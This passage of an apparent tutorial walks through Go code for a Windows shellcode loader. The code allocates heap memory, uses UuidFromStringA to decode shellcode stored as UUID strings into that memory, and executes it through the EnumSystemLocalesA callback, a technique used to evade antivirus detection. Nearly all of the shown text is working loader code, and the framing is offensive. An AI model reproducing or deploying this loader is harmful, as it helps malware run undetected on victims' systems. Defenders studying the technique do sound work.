 ```go

// Allocate heap memory
addr, _, err := HeapAlloc.Call(
  heapAddr,
  0,
  0x00100000,
)

if addr == 0 { // Handle error
  log.Fatal(err)
}

...
```

Now we have to use `UuidFromStringA` to decode and write the shellcode to memory iterating over all the UUIDs

```go
...

// Load dll
rpcrt4 := windows.NewLazySystemDLL("Rpcrt4.dll")
UuidFromStringA := rpcrt4.NewProc("UuidFromStringA")

addrPtr := addr
// Iterate over all UUIDs
for _, uuid := range uuids {
  u := append([]byte(uuid), 0)

  // Call function
  rpcStatus, _, err := UuidFromStringA.Call(
    uintptr(unsafe.Pointer(&u[0])),
    addrPtr,
  )

  if rpcStatus != 0 { // Handle error
    log.Fatal(err)
  }

  addrPtr += 16
}

...
```

And finally to execute the shellcode we use `EnumSystemLocalesA` as there are some API calls which use callback functions so can be abused to execute shellcode.

```go
...

// Get API call
EnumSystemLocalesA := kernel32.NewProc("EnumSystemLocalesA")

ret, _, err := EnumSystemLocalesA.Call(addr, 0)
if ret == 0 { // Handle error
  log.Fatal(err)
}

...
```
